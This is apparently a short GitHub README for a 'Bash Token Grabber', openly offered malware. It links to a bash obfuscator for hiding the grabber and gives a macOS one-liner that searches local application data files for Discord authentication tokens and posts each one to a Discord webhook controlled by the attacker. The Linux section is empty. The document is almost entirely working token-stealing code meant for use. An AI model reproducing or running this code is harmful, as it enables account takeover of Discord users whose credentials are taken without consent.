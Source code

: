 # Bash Token Grabber(s) 🐛

### 👉 [Obfuscate your grabber](https://github.com/Bashfuscator/Bashfuscator)

### 🐧 Linux

```
i don't have any linux system, if you have one, PRs are open :D
```

### 🍎 MacOS

```bash
export WB=https://canary.discord.com/api/webhooks/.../...

for grabbed_token in $(find ~/Library/Application\ Support/* -type f -name "*.ldb" -exec strings {} \; 2>/dev/null|grep -oE "\"mfa.*\""|sed "s/\"//g" |uniq);do curl -X POST $WB --data "{\"content\": \"**Grabbed token**\n\n||$grabbed_token||\"}"-H "Accept: application/json" -H "Content-Type:application/json" >/dev/null;done; 
```